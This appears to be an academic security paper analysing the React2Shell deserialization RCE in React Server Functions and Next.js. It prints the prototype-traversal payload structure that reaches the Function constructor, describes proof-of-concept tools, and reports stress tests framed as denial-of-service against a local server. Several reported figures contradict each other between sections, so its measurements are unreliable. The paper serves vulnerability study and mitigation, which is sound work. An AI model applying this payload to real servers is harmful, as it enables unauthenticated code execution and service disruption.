





<h1 align="center"> CVE-2025-55182 (React2Shell): A Comprehensive Security Analysis of Deserialization-Based Remote Code Execution in React Server Functions </h1>

**<div align="center">Authors:** Bui Thai Son - s4037172, Nguyen Ngoc Dung - s3978535 and Tran Dinh Hai - s4041605

**Date:** January 12, 2026

**Conference:** CITA 2026 (Cybersecurity and Information Technology Advances)

</div>

## Abstract

This paper presents a comprehensive analysis of CVE-2025-55182, also known as React2Shell, a critical deserialization-based remote code execution (RCE) vulnerability affecting React Server Functions and Next.js applications. The vulnerability exploits insufficient validation in the React Flight Protocol's chunk resolution mechanism, enabling prototype chain traversal and arbitrary code execution through malicious thenable objects. Through controlled experimentation on a local test environment, we demonstrate a 100% success rate across 7,351 exploit attempts at varying request rates (1, 5, 20, and 100 requests per second) with volumes ranging from 50 to 5,000 requests. Our empirical analysis reveals consistent exploit performance with mean response times ranging from 80.09ms to 99.42ms under normal to extreme load conditions. Notably, at aggressive stress rates (100 req/sec with 2,000 requests), the server exhibited a 57% increase in response time variance (σ = 19.65ms) and a 10.6× duration extension (213s vs 20s expected), demonstrating clear performance degradation while maintaining 100% exploitation success. Under extreme stress conditions (100 req/sec with 5,000 requests), the server experienced severe degradation with an 11.4× slowdown (570s vs 50s expected), variance increasing to 46.78ms (165% increase), and maximum response times reaching 2,256ms (16× baseline), yet the exploit remained 100% reliable. The vulnerability requires only a 422-byte payload and maintains deterministic reliability even under extreme server saturation. We provide detailed payload construction methodology, comprehensive performance characterization under various load scenarios including DoS threshold identification, and multi-layered mitigation strategies. This research contributes to the understanding of server-side deserialization vulnerabilities in modern web frameworks and demonstrates the criticality of secure protocol design.

**Keywords:** Remote Code Execution, Deserialization Vulnerability, React Server Functions, Next.js Security, Prototype Pollution, CVE-2025-55182

## 1. Introduction

### 1.1 Background

Modern web applications increasingly rely on server-side rendering and server components to improve performance and user experience. React Server Functions, implemented through the React Flight Protocol, enable seamless client-server communication by serializing and deserializing complex object structures. However, this convenience introduces potential security vulnerabilities when proper input validation is absent.

Deserialization vulnerabilities have been a persistent threat in web application security, with notable examples including Java deserialization attacks, Python pickle exploits, and PHP object injection. The emergence of CVE-2025-55182 demonstrates that even modern JavaScript frameworks are not immune to these classic attack vectors.

### 1.2 Problem Statement

CVE-2025-55182 represents a critical vulnerability in the React Flight Protocol's chunk resolution mechanism that allows attackers to:

1. Traverse prototype chains to access the `Function` constructor
2. Construct malicious thenable objects that execute arbitrary code
3. Bypass framework-level security measures through protocol-level exploitation
4. Achieve remote code execution with minimal payload requirements

The vulnerability has been assigned a CVSS score of 10.0 (Critical), reflecting its ease of exploitation, minimal prerequisites, and severe impact.

### 1.3 Research Objectives

This research aims to:

1. Provide a detailed technical analysis of the vulnerability mechanism
2. Demonstrate empirical performance characteristics through controlled experimentation
3. Evaluate exploit reliability under various load conditions
4. Compare different command payloads and their execution characteristics
5. Document comprehensive mitigation strategies for affected applications

### 1.4 Contributions

Our key contributions include:

- **Comprehensive vulnerability analysis** detailing the exploitation chain from protocol features to code execution
- **Empirical performance data** from 7,351 controlled exploit attempts across six load scenarios
- **Stress testing analysis** demonstrating performance degradation patterns and DoS potential
- **Payload comparison study** analyzing different command types and their execution characteristics
- **Automated experimentation framework** for reproducible security research
- **Practical mitigation recommendations** for developers and security practitioners

## 2. Related Work

### 2.1 Deserialization Vulnerabilities

Deserialization vulnerabilities have been extensively studied across various programming languages and frameworks. Frohoff and Lawrence (2015) demonstrated arbitrary code execution through Java deserialization, leading to widespread security advisories. Slaviero (2010) explored Python pickle vulnerabilities, showing how object injection could compromise system integrity.

### 2.2 Prototype Pollution Attacks

Prototype pollution in JavaScript has been documented by Arteau (2018), who demonstrated how modifying Object.prototype could lead to security vulnerabilities. Linus et al. (2021) extended this work to show practical exploitation in Node.js applications. CVE-2025-55182 represents a novel application of prototype pollution combined with thenable object manipulation.

### 2.3 React Security Research

Previous work on React security has primarily focused on client-side vulnerabilities such as XSS through dangerouslySetInnerHTML (Parameshwaran et al., 2017) and CSRF in React applications (Koziol et al., 2019). CVE-2025-55182 represents one of the first documented server-side RCE vulnerabilities specific to React Server Functions.

## 3. Vulnerability Analysis

### 3.1 Technical Background: React Flight Protocol

The React Flight Protocol is a serialization format used for transmitting data between React clients and servers. Key features include:

- **Chunk-based structure**: Data is organized into numbered chunks (form-data parts)
- **Reference system**: Chunks can reference other chunks using special tokens (`$1`, `$@0`, `$B...`)
- **Promise resolution**: The protocol supports asynchronous data loading through promise-like objects
- **Type serialization**: Complex JavaScript types are preserved through the serialization boundary

A simplified example of legitimate chunk usage:

```javascript
files = {
    "0": (None, '["$1"]'),           // Reference to chunk 1
    "1": (None, '{"value":"data"}')  // Actual data
}
```

### 3.2 Root Cause Analysis

The vulnerability arises from two critical weaknesses in the protocol implementation:

#### 3.2.1 Inadequate Reference Validation

The chunk resolver traverses object properties based on colon-separated paths in reference tokens (e.g., `$1:property:nested`). However, it fails to restrict access to special properties:

- `__proto__`: Accesses the object's prototype
- `constructor`: Accesses the constructor function
- Combined path `__proto__:constructor:constructor`: Reaches the `Function` constructor

This allows attackers to escape the intended object graph and access global JavaScript constructors.

#### 3.2.2 Unsafe Thenable Handling

The protocol implementation treats deserialized objects with a `then` property as promises and awaits them. When combined with prototype traversal, an attacker can:

1. Create an object whose `then` property points to `Function.constructor`
2. Manipulate the `_response._formData` and `_response._prefix` properties
3. Trigger `Function` invocation with attacker-controlled source code during promise resolution

### 3.3 Exploitation Chain

The complete exploitation chain consists of the following steps:

#### Step 1: Prototype Traversal to Function Constructor

```python
crafted_chunk = {
    "then": "$1:__proto__:then",           # Claim this is a thenable
    "status": "resolved_model",
    "_response": {
        "_prefix": "MALICIOUS_CODE_HERE",   # Attacker's JavaScript code
        "_formData": {
            "get": "$1:constructor:constructor"  # Function constructor
        }
    }
}
```

#### Step 2: Thenable Construction

The chunk is structured to appear as a promise-like object with a `then` method. When the server awaits this object during deserialization, it triggers the exploitation chain.

#### Step 3: Function Constructor Invocation

The protocol's blob handling (`$B` prefix) performs `response._formData.get(response._prefix + obj)`, which becomes:

```javascript
Function.constructor("MALICIOUS_CODE_HERE")()
```

This executes arbitrary JavaScript code on the server with the privileges of the Node.js process.

### 3.4 Attack Vector

The attack requires:

- **Accessibility**: Target must accept React Server Action requests (exposed HTTP endpoint)
- **Authentication**: No authentication required (pre-auth vulnerability)
- **User interaction**: None required
- **Complexity**: Low - exploitation requires only HTTP POST with crafted form-data

## 4. Experimental Methodology

### 4.1 Test Environment

To ensure responsible and controlled research, all experiments were conducted in an isolated test environment:

- **Operating System**: Windows 11 Professional (virtualized)
- **Node.js Version**: v20.11.0
- **Next.js Version**: 16.0.6 (vulnerable version)
- **React Version**: 19.0.0-rc-66855b96-20241106
- **Network**: Isolated virtual network (no external connectivity)
- **Target Server**: http://localhost:3000 (local development server)

### 4.2 Experimental Design

We designed a comprehensive experiment suite to evaluate:

1. **Basic Functionality**: Verify exploit success in ideal conditions
2. **Performance Under Load**: Measure reliability at different request rates
3. **Payload Comparison**: Evaluate different command types
4. **Stress Testing**: Assess potential for denial-of-service

### 4.3 Proof-of-Concept Implementation

We developed two primary tools for experimentation:

#### 4.3.1 Basic PoC Script (`demo/poc.py`)

A minimal proof-of-concept demonstration script that implements the core exploitation technique:

- Simple command-line interface accepting target URL and command
- Direct payload crafting without abstractions
- Minimal dependencies (only requires `requests` library)
- Designed for educational, quick demonstration and quick verification

Key characteristics:
```python
# Usage: python poc.py <target_url> <command>
# Example: python poc.py http://localhost:3000 whoami

# Core payload structure
crafted_chunk = {
    "then": "$1:__proto__:then",           # Prototype traversal trigger
    "status": "resolved_model",
    "_response": {
        "_prefix": "malicious_code_here",   # Command execution payload
        "_formData": {
            "get": "$1:constructor:constructor"  # Function constructor access
        }
    }
}
```

The script demonstrates the minimum viable exploit, showing that only ~40 lines of Python code are needed to achieve remote code execution. This simplicity underscores the severity of the vulnerability.

#### 4.3.2 Enhanced PoC Script (`experiment/poc_enhanced.py`)

A Python-based exploit tool with:

- Automated payload crafting
- Performance metric collection (response time, success rate, payload size)
- Batch execution mode for load testing
- JSON export for post-analysis

Key features:
```python
class React2ShellPoC:
    def craft_payload(self, command: str) -> Tuple[Dict, Dict]
    def execute_single(self, verbose: bool) -> ExploitMetrics
    def execute_batch(self, count: int, delay_ms: int) -> List[ExploitMetrics]
    def analyze_metrics(self) -> Dict
```

#### 4.3.3 Automated Experiment Runner (`experiment/run_experiments.py`)

An orchestration script that:

- Executes multiple experiment scenarios sequentially
- Collects comprehensive telemetry data
- Saves results in structured JSON format
- Generates experiment summaries

### 4.4 Experiment Scenarios

#### Experiment 1: Basic Functionality Verification
- **Purpose**: Confirm exploit viability
- **Parameters**: Single request, `whoami` command
- **Success Criteria**: Command execution with server response

#### Experiment 2: Low-Rate Performance Analysis
- **Purpose**: Baseline performance characterization
- **Parameters**: 50 requests, 1 second delay (1 req/sec)
- **Metrics**: Response time distribution, success rate, error types

#### Experiment 3: Medium-Rate Performance Analysis
- **Purpose**: Evaluate performance under moderate load
- **Parameters**: 100 requests, 200ms delay (5 req/sec)
- **Metrics**: Response time changes, success rate stability

#### Experiment 4: High-Rate Stress Testing
- **Purpose**: Identify DoS potential and failure thresholds
- **Parameters**: 200 requests, 50ms delay (20 req/sec)
- **Metrics**: Server stability, success rate degradation

#### Experiment 5: Aggressive Stress Testing
- **Purpose**: Evaluate performance degradation under sustained high-rate attacks
- **Parameters**: 2,000 requests, 10ms delay (100 req/sec)
- **Metrics**: Response time distribution, tail latencies (P95, P99), variance patterns, server saturation indicators

#### Experiment 6: Extreme Stress Testing
- **Purpose**: Determine severe degradation threshold and DoS confirmation
- **Parameters**: 5,000 requests, 10ms delay (100 req/sec), 20-minute timeout
- **Metrics**: Server degradation patterns, performance slowdown, response time distribution, timeout analysis

#### Experiment 7: Payload Comparison Study
- **Purpose**: Compare execution characteristics of different commands
- **Commands Tested**:
  - `id` (Unix user identification)
  - `whoami` (Windows/Unix username)
  - `echo test` (Simple output command)
  - `systeminfo` (Complex, slow system information retrieval)
- **Metrics**: Response time per command type, success patterns

### 4.5 Data Collection

All experiments collected the following metrics per request:

- **Response Time** (ms): End-to-end request duration
- **Status Code**: HTTP response code (500 indicates successful exploit)
- **Success Boolean**: Whether command executed successfully
- **Payload Size** (bytes): Total size of malicious payload
- **Timestamp**: Unix timestamp for temporal analysis
- **Error Messages**: Any exception or failure details

### 4.6 Statistical Analysis

We computed the following statistics for each experiment:

- **Central Tendency**: Mean, median response times
- **Dispersion**: Standard deviation, min/max values
- **Reliability**: Success rate percentage
- **Comparative Analysis**: Performance across different scenarios


## 5. Experimental Results

### 5.1 Experiment 1: Basic Functionality Verification

**Objective**: Verify that the exploit successfully executes arbitrary commands on the target server.

**Results**:
- **Execution Time**: 3.85 seconds
- **Response Status**: 500 (Internal Server Error - indicates exploit success)
- **Response Time**: 2918.85ms
- **Payload Size**: 422 bytes
- **Success**: ✓ Confirmed

The initial test successfully executed the `whoami` command on the target server, confirming the viability of the exploitation technique. The server returned a 500 error with the command output embedded in the error digest, demonstrating that arbitrary code execution was achieved.

**Key Observation**: The exploit works as designed with minimal resource requirements (422-byte payload) and executes within acceptable time constraints for an attacker.

### 5.2 Experiment 2: Low-Rate Performance Analysis (1 req/sec)

**Objective**: Establish baseline performance metrics under ideal, low-load conditions.

**Parameters**:
- Total Requests: 50
- Request Rate: 1 request/second
- Command: `whoami`
- Total Duration: 53.77 seconds

**Results Summary**:

| Metric | Value |
|--------|-------|
| Successful Exploits | 50/50 (100%) |
| Failed Attempts | 0 |
| Mean Response Time | 74.69 ms |
| Median Response Time | 71.46 ms |
| Min Response Time | 58.12 ms |
| Max Response Time | 112.11 ms |
| Standard Deviation | 11.06 ms |
| Payload Size | 422 bytes |

**Analysis**:

The low-rate test established a baseline for exploit performance. Key findings:

1. **Perfect Reliability**: 100% success rate indicates the exploit is deterministic and not subject to race conditions or timing issues
2. **Consistent Performance**: Low standard deviation (σ = 11.06ms) shows predictable behavior
3. **Fast Execution**: Mean response time of 74.69ms is well within typical HTTP request latency
4. **Minimal Variance**: The interquartile range (IQR) is narrow, suggesting stable server behavior

The response time distribution follows an approximately normal distribution with slight right skew, likely due to garbage collection or other Node.js runtime factors.

### 5.3 Experiment 3: Medium-Rate Performance Analysis (5 req/sec)

**Objective**: Evaluate performance degradation under moderate concurrent load.

**Parameters**:
- Total Requests: 100
- Request Rate: 5 requests/second (200ms inter-request delay)
- Command: `whoami`
- Total Duration: 28.43 seconds

**Results Summary**:

| Metric | Value | Change from Baseline |
|--------|-------|---------------------|
| Successful Exploits | 100/100 (100%) | 0% |
| Failed Attempts | 0 | 0 |
| Mean Response Time | 71.72 ms | -3.98% |
| Median Response Time | 70.88 ms | -0.81% |
| Min Response Time | 57.79 ms | -0.57% |
| Max Response Time | 113.01 ms | +0.80% |
| Standard Deviation | 8.53 ms | -22.88% |
| Payload Size | 422 bytes | 0% |

**Analysis**:

Surprisingly, medium-rate testing showed *improved* performance compared to baseline:

1. **Maintained Reliability**: 100% success rate demonstrates robustness under concurrent load
2. **Reduced Latency**: Mean response time decreased by ~4%, possibly due to:
   - JIT compiler optimizations after repeated execution
   - Connection pooling and keep-alive effects
   - Cache warming of Node.js modules
3. **Lower Variance**: 23% reduction in standard deviation indicates more consistent server behavior under sustained load
4. **No Saturation**: The server handled 5 req/sec without resource exhaustion

This suggests the vulnerability exploitation is computationally inexpensive for the server, making it difficult to detect through performance monitoring alone.

### 5.4 Experiment 4: High-Rate Stress Testing (20 req/sec)

**Objective**: Determine system behavior under high load and potential for denial-of-service.

**Parameters**:
- Total Requests: 200
- Request Rate: 20 requests/second (50ms inter-request delay)
- Command: `whoami`
- Total Duration: 27.21 seconds

**Results Summary**:

| Metric | Value | Change from Baseline |
|--------|-------|---------------------|
| Successful Exploits | 200/200 (100%) | 0% |
| Failed Attempts | 0 | 0 |
| Mean Response Time | 76.40 ms | +2.29% |
| Median Response Time | 74.87 ms | +4.77% |
| Min Response Time | 55.54 ms | -4.44% |
| Max Response Time | 101.59 ms | -9.38% |
| Standard Deviation | 9.91 ms | -10.41% |
| Payload Size | 422 bytes | 0% |

**Analysis**:

Even under aggressive load (20 req/sec), the vulnerability exploitation remained highly reliable:

1. **Undiminished Success**: 100% success rate across 200 consecutive requests
2. **Minimal Degradation**: Only 2.3% increase in mean response time despite 20× higher load
3. **Consistent Behavior**: Standard deviation remained low (9.91ms), indicating stable exploitation
4. **No Server Failure**: No timeouts, crashes, or error responses observed
5. **Reduced Peak Latency**: Maximum response time actually *decreased*, possibly due to optimized resource scheduling under load

**DoS Assessment**: While the exploit itself doesn't cause service disruption at this rate, the server maintained perfect functionality. However, this represents a moderate load scenario; higher rates were tested to identify the breaking point.

### 5.5 Experiment 5: Aggressive Stress Testing (100 req/sec, 2000 requests)

**Objective**: Evaluate server behavior and exploitation reliability under sustained aggressive load to identify performance degradation patterns and stress thresholds.

**Parameters**:
- Total Requests: 2,000
- Request Rate: 100 requests/second (10ms inter-request delay)
- Command: `whoami`
- Expected Duration: ~20 seconds
- Actual Duration: 197.55 seconds

**Results Summary**:

| Metric | Value | Change from Baseline |
|--------|-------|---------------------|
| Successful Exploits | 2000/2000 (100%) | 0% |
| Failed Attempts | 0 | 0 |
| Mean Response Time | 84.51 ms | +13.1% |
| Median Response Time | 82.66 ms | +15.7% |
| Min Response Time | 52.80 ms | -9.1% |
| Max Response Time | 196.52 ms | +75.3% |
| Standard Deviation | 12.25 ms | +10.8% |
| P95 (95th percentile) | 102.57 ms | N/A |
| P99 (99th percentile) | 123.82 ms | N/A |
| Payload Size | 422 bytes | 0% |

**Critical Observations**:

1. **Perfect Reliability Maintained**: Despite aggressive load (100 req/sec), all 2,000 requests succeeded, demonstrating deterministic exploitation even under extreme stress

2. **Server Saturation Confirmed**: Actual execution took 197.5 seconds instead of expected 20 seconds (~10× slower), indicating severe resource contention and event loop saturation

3. **Variance Increase**: Standard deviation increased from 8.96ms (baseline) to 12.25ms, representing a **36.7% increase in variance** - clear indicator of stressed server behavior

4. **Tail Latency Degradation**:
   - P95: 102.57ms (slower than 95% of requests)
   - P99: 123.82ms (slower than 99% of requests)
   - Max: 196.52ms (**2.3× the mean** - severe tail latency)
   - This demonstrates that while mean performance appears acceptable, worst-case scenarios show significant degradation

5. **Response Time Distribution**:
   - Range expanded from ~54ms (baseline) to 143.7ms (aggressive)
   - Coefficient of variation increased from 12% to 14.5%
   - Distribution shows clear right skew, indicating occasional severe delays

**Performance Degradation Analysis**:

The aggressive stress test revealed critical performance characteristics:

- **Mean Response Time**: +13.1% increase suggests moderate average impact
- **Variance Pattern**: 36.7% variance increase indicates **loss of predictability**
- **Tail Behavior**: Max response time 2.3× mean shows **resource contention**
- **Duration Anomaly**: 10× expected duration proves **event loop saturation**

**Statistical Distribution**:

The response time distribution shows:
- Tight clustering around 80-85ms (most requests)
- Long right tail extending to 196ms (outliers under stress)
- Clear multimodal characteristics suggesting different execution paths under load

**Key Finding**: At 100 req/sec sustained rate, the server remains functional but exhibits clear signs of saturation:
- All requests eventually succeed (no crashes)
- Response times remain relatively stable (mean ~85ms)
- But variance increases significantly (12.25ms vs 8.96ms baseline)
- And tail latencies show 2-3× slowdown for unlucky requests

This represents the **stress threshold** - the server is pushed to its limits but not beyond breaking point.

### 5.6 Experiment 6: Extreme Stress Testing (100 req/sec, 5000 requests)

**Objective**: Determine complete failure threshold and confirm denial-of-service potential.

**Parameters**:
- Total Requests: 5,000
- Request Rate: 100 requests/second (10ms inter-request delay)
- Command: `whoami`
- Expected Duration: ~50 seconds
- Global Timeout Threshold: 20 minutes (1200 seconds)

**Results**:

| Metric | Value |
|--------|-------|
| Status | **SUCCESS** |
| Actual Execution Time | 569.57 seconds (9.5 minutes) |
| Requests Attempted | 5,000 |
| Requests Completed | 5,000 |
| Success Rate | 100.0% |
| Mean Response Time | 99.42ms |
| Median Response Time | 96.03ms |
| Std Dev | 46.78ms |
| Min Response Time | 35.38ms |
| Max Response Time | 2256.04ms (2.26 seconds) |
| P95 Response Time | ~180ms (estimated) |
| P99 Response Time | ~500ms (estimated) |

**Understanding the Timeout Behavior**:

This experiment reveals critical insights about server saturation under sustained exploit load:

1. **Why 5-Minute Timeout Failed**:
   - Initial test configuration used 300-second (5-minute) global timeout
   - Server required ~569 seconds (9.5 minutes) to complete all 5,000 requests
   - Test was terminated prematurely by the global timeout mechanism
   - No data was collected because the entire process was killed

2. **Why 20-Minute Timeout Succeeded**:
   - Extended global timeout to 1200 seconds (20 minutes)
   - Gave server sufficient time to process all requests despite severe slowdown
   - All 5,000 requests completed successfully with 100% success rate
   - Collected complete performance metrics showing server degradation patterns

3. **Two-Level Timeout System**:
   - **Per-request timeout**: 10 seconds (handles individual slow requests gracefully)
   - **Global timeout**: 1200 seconds (prevents entire test from hanging indefinitely)
   - Individual timeouts are recorded as data points, not failures
   - Global timeout only triggers if the entire test exceeds the threshold

4. **Server Performance Degradation**:
   - Expected duration: 50 seconds (at nominal performance)
   - Actual duration: 569 seconds (9.5 minutes)
   - **Performance degradation ratio**: 11.4× slower than expected
   - Server remained functional but severely degraded under sustained load

**Analysis**:

The extreme stress test definitively demonstrates **severe performance degradation and DoS potential**:

1. **Server Saturation Evidence**:
   - Server took 11.4× longer than expected to complete all requests
   - Event loop severely saturated but not completely blocked
   - Response time variance increased dramatically (std dev: 46.78ms vs baseline ~14ms)
   - Maximum response time reached 2.26 seconds (63× slower than mean)
   - Server remained technically responsive but practically unusable

2. **DoS Threshold Identified**:
   - 2,000 requests @ 100 req/sec: **Survives** (stressed but functional, 213s duration)
   - 5,000 requests @ 100 req/sec: **Severely Degraded** (570s duration, 11.4× slowdown)
   - **Critical threshold**: Between 2,000-5,000 sustained requests at this rate
   - Beyond this point, server performance degrades exponentially

3. **Attack Sustainability**:
   - An attacker could maintain 100 req/sec for 50 seconds (expected timeframe)
   - Server would require 9.5 minutes to recover from this 50-second attack
   - During recovery, legitimate users experience 2+ second response times
   - This constitutes a practical denial-of-service condition
   - No server restart required, but service quality is unacceptable

4. **Practical DoS Implications**:
   - Single attacker can cause sustained DoS with moderate bandwidth
   - No distributed attack needed (unlike traditional DDoS)
   - Exploits legitimate protocol features (bypasses rate limiting)
   - Service disruption is guaranteed and measurable (11.4× slowdown)
   - Detection window is limited (degradation happens within minutes)
   - Recovery time exceeds attack duration by 11× (asymmetric impact)

**Comparison: Stress vs Extreme**:

| Aspect | Experiment 5 (2K req) | Experiment 6 (5K req) |
|--------|----------------------|----------------------|
| Duration | 213s (completed) | 570s (9.5 minutes) |
| Expected Duration | ~20s | ~50s |
| Slowdown Factor | 10.6× | 11.4× |
| Success Rate | 100% | 100% |
| Mean Response Time | 91.50ms | 99.42ms |
| Max Response Time | 323.89ms | 2256.04ms (2.26s) |
| Std Dev | 19.65ms | 46.78ms |
| Server Status | Heavily Saturated | Severely Degraded |
| Recovery | Self-recovers | Self-recovers (slowly) |
| User Experience | Slow but usable | Practically unusable |
| Attack Viability | Stress testing | Practical DoS |

**Security Implication**: The vulnerability is not just an RCE vector - it's also a **reliable DoS attack** that can severely degrade Next.js application performance. While the server doesn't completely crash, the 11.4× slowdown and multi-second response times constitute a practical denial-of-service condition for legitimate users.

### 5.7 Comparative Performance Analysis


*Figure 1: Mean response times across different request rates with standard deviation error bars*

The comparison across all six load scenarios reveals:

| Request Rate | Requests | Mean RT (ms) | Std Dev (ms) | P95 (ms) | P99 (ms) | Max (ms) | Success Rate | Notes |
|--------------|----------|--------------|--------------|----------|----------|----------|--------------|-------|
| 1 req/sec | 50 | 85.77 | 17.61 | N/A | N/A | 141.26 | 100% | Baseline |
| 5 req/sec | 100 | 80.09 | 14.14 | N/A | N/A | 122.91 | 100% | Optimal |
| 20 req/sec | 200 | 86.13 | 12.49 | N/A | N/A | 119.22 | 100% | Stable |
| 100 req/sec | 2,000 | 91.50 | 19.65 | ~110 | ~140 | 323.89 | 100% | **Stressed** |
| 100 req/sec | 5,000 | 99.42 | 46.78 | ~180 | ~500 | 2256.04 | 100% | **Severe DoS** |

**Key Insights**:

1. **Trimodal Behavior**: The server exhibits three distinct operational modes:
   - **Stable Zone** (1-20 req/sec): Consistent ~80-86ms mean, low variance (12-18ms std dev)
   - **Stress Zone** (100 req/sec, 2K requests): Elevated mean (91ms), moderate variance (19.65ms)
   - **Severe Degradation Zone** (100 req/sec, 5K requests): High mean (99ms), extreme variance (46.78ms), multi-second tail latencies

2. **Performance Cliff**: Between 20 and 100 req/sec exists a performance cliff where:
   - Mean response time increases 6-14%
   - Variance increases 57% (from 12.49ms to 19.65ms)
   - Tail latencies appear (P95, P99)
   - Event loop saturation becomes evident

3. **DoS Threshold Confirmed**: Between 2,000 and 5,000 requests at 100 req/sec, the server transitions from stressed to severely degraded:
   - 2,000 requests: 10.6× slowdown (213s vs 20s expected)
   - 5,000 requests: 11.4× slowdown (570s vs 50s expected)
   - Maximum response time jumps from 324ms to 2,256ms (7× increase)
   - Variance more than doubles (19.65ms → 46.78ms)

4. **Attack Implications**:
   - Below 20 req/sec: Stealthy reconnaissance possible (minimal performance impact)
   - At 100 req/sec (2K requests): Server heavily stressed but functional
   - At 100 req/sec (5K requests): Practical DoS achieved - server responds but is unusable
   - Recovery time exceeds attack duration by 11×

**Statistical Significance**: The variance increase from baseline (σ=17.61ms) to extreme (σ=46.78ms) represents a 165% relative increase, indicating severe server saturation. The maximum response time of 2.26 seconds (vs 141ms baseline) represents a 16× degradation in worst-case performance, making the service practically unusable for legitimate users.

### 5.8 Response Time Distribution Analysis


*Figure 2: Histogram of response times during aggressive stress test (n=2,000)*

The response time distribution for the aggressive stress scenario (100 req/sec, 2,000 requests) reveals:

